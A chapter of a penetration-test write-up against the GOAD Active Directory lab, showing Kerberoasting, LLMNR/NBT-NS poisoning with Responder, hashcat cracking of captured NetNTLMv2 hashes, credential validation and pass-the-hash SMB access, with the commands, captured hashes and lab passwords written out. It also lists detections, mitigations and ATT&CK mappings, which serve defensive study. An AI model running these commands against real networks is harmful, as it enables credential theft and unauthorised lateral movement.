


# Credential Access and Lateral Movement

## Objective

This phase tested whether the authenticated access obtained earlier could expose service-accoutn credentials, captured NTLM authentication, and accessible network shares.

## Starting position

- Several valid accounts in `north.sevenkingdoms.local`
- No Domain Admin credential
- A confirmed user and group inventory
- Network access to the GOAD systems

## Kerberoasting

Kerberoasting was used to identify accounts with Service Principal Names (SPNs) and request service tickets that could be tested offline.

```bash
GetUserSPNs.py -request -dc-ip 10.4.10.11 'north.sevenkingdoms.local/brandon.stark:iseedeadpeople' -outputfile kerberoast-hashes.txt
```

## Troubleshooting Kerberos clock skew

The first request failed with:

```text
KRB_AP_ERR_SKEQ: Clock skew too great
```

Kerberos depends on time synchronisation. The Kali system was therefore aligned with the lab domain controller before the request was repeated:

```bash
sudo timedatectl set-ntp off
sudo rdate -n 10.4.10.11
```

After syncrhonization, the service ticket request succeeded. One ticket was recovered offline with Hashcat, exposing the password for `jon.snow`:

```text
jon.snow:iknownothing
```


## LLMNR and NBT-NS poisoning

Reponder was run to test whether systems would fall back to multicast or broadcast name resolution and send NTLM authentication to a rogue responder:

```bash
sudo responder -I eth0
```

Authentication attempts from two domain users were captured. The captured values were **NetNTLMv2 challenge-response data**, not reusable NT password hashes.

```sh
[SMB] NTLMv2-SSP Client   : 10.4.10.11
[SMB] NTLMv2-SSP Username : NORTH\eddard.stark
[SMB] NTLMv2-SSP Hash     : eddard.stark::NORTH:98db915729cbf673:CAA545B4D425834F5887741416A33EA4:0101000000000000806D80798655DB01D9983AFE29AEA80B0000000002000800540033003400380001001E00570049004E002D0034004200410059005A0059005600300047003300500004003400570049004E002D0034004200410059005A005900560030004700330050002E0054003300340038002E004C004F00430041004C000300140054003300340038002E004C004F00430041004C000500140054003300340038002E004C004F00430041004C0007000800806D80798655DB01060004000200000008003000300000000000000000000000003000005DE594947D1925B89E880EBD1422F0706D876ECC261071DC3B4B573725EFACA20A001000000000000000000000000000000000000900140063006900660073002F004D006500720065006E000000000000000000
```

```sh
[SMB] NTLMv2-SSP Client   : 10.4.10.11
[SMB] NTLMv2-SSP Username : NORTH\robb.stark
[SMB] NTLMv2-SSP Hash     : robb.stark::NORTH:7f945256f0b1ca59:CA2F97E8985703DB0ABE10C43612E499:0101000000000000806D80798655DB0150433DACC59B7BB40000000002000800540033003400380001001E00570049004E002D0034004200410059005A0059005600300047003300500004003400570049004E002D0034004200410059005A005900560030004700330050002E0054003300340038002E004C004F00430041004C000300140054003300340038002E004C004F00430041004C000500140054003300340038002E004C004F00430041004C0007000800806D80798655DB01060004000200000008003000300000000000000000000000003000005DE594947D1925B89E880EBD1422F0706D876ECC261071DC3B4B573725EFACA20A001000000000000000000000000000000000000900160063006900660073002F0042007200610076006F0073000000000000000000
```

## Offline recovery

The captured NetNTLMv2 responses were tested offline:

```bash
hashcat -m 5600 captured-netntlmv2.txt /usr/share/wordlists/rockyou.txt
```

One password was recovered successfully:

```sh
ROBB.STARK::NORTH:7f945256f0b1ca59:ca2f97e8985703db0abe10c43612e499:0101000000000000806d80798655db0150433dacc59b7bb40000000002000800540033003400380001001e00570049004e002d0034004200410059005a0059005600300047003300500004003400570049004e002d0034004200410059005a005900560030004700330050002e0054003300340038002e004c004f00430041004c000300140054003300340038002e004c004f00430041004c000500140054003300340038002e004c004f00430041004c0007000800806d80798655db01060004000200000008003000300000000000000000000000003000005de594947d1925b89e880ebd1422f0706d876ecc261071dc3b4b573725efaca20a001000000000000000000000000000000000000900160063006900660073002f0042007200610076006f0073000000000000000000:sexywolfy
```

The other captured repsonse was not receovered with the tested wordlist.

## Access validation

The recovered `robb.stark` credential was validated against `WINTERFELL` and showed administrative access:

```bash
# Original syntax
crackmapexec smb 10.4.10.11 -u robb.stark -p 'sexywolfy' --shares

# Current equivalent
nxc smb 10.4.10.11 -u robb.stark -p 'sexywolfy' --shares
```



## SMB share discovery and lateral movement

The same account was used to access `CASTELBLACK` with Impacket's SMB client:

```bash
smbclient.py -hashes :831486ac7f26860c9e2f51ac91e1a07a NORTH/robb.stark@10.4.10.22
```

An accessible share contained a message referring to Arya's sword, `Needle`. This clue corresponded to another predictable account password.

```text
Subject: Quick Departure

Hey Arya,

I hope this message finds you well. Something urgent has come up, and I have to leave for a while. Don't worry; I'll be back soon.

I left a little surprise for you in your room – the sword You've named "Needle." It felt fitting, given your skills. Take care of it, and it'll take care of you.

I'll explain everything when I return. Until then, stay sharp, sis.
```

```text
arya.stark:needle
```

This was not a technical vulnerability in the file format or SMB protoocl. It was sensitive information stored in a location accessible to an already compromised user.

## Result

This phase expanded access through three distinct paths:

- A service ticket was recovered and cracked offline
- NetNTLMv2 authentication was captured through unsafe name-resolution behavior and one response was cracked
- Administrative SMB access exposed additional sensitive information in a network share

The recovered `robb.stark` credential became the key transition to hte next stage because it had sufficient privileges to extract domain credential material.

## Security impact

Service accounts and captured authentication can provide durable access even when no software exploit is available. Once a privileged credential is recovered, the attack can progress rapidly from user-level access to credential dumping and domain compromise.

## Detection opportunities

- Unusual volumes of serice-ticket requests, especitally RC4-encrypted tickets for service accounts
- LLMNR, NBT-NS, or mDNS responses from systems that are not legitimate name-resolution servers
- Outbound SMB authentication to unexpected hosts
- Use of Responder-like protocol fingerprints
- Access to administrative shares from unusual workstations or users
- Reading sensitive files shortly after first authentication

## Mitigation

- Use group managed service accoutns or long, random serivce-account passwords
- Prefer AES-capable Kerberos configuration and rec=duce unnecessary RC4 use
- Disable LLMNR and NBT-NS where they are not required
- Require SB signing and reduce NTLM use
- Apply least privilege to network shares and remove password clues or operational secrets from shared files
Monitor privileged share access and service-ticket behavior

## MITRE ATT&CK mapping

- `T1558.003` - Kerberoasting
- `T1557.001` - LLMNR/NBT-NS Poisoning and SMB Relay
- `T1110.002` - Password Cracking
- `T1135` - Network Share Discovery
- `T1021.002` - SMB/Windows Admin Shares

## Key takeaway

The strongest part of this phase was the chain: authenticated Kerberos access exposed a service account, unsafe name resolution exposed NTLM authentication, and weak share hygiene exposed another password. Each individual weakness was limited, but together they produced administrative access.

## Navigation

[Previous: Initial credential access](02-initial-credential-access.md) | [Assessment index](../README.md) | [Next: Privilege escalation and domain compromise](04-privilege-escalation-and-domain-compromise.md)


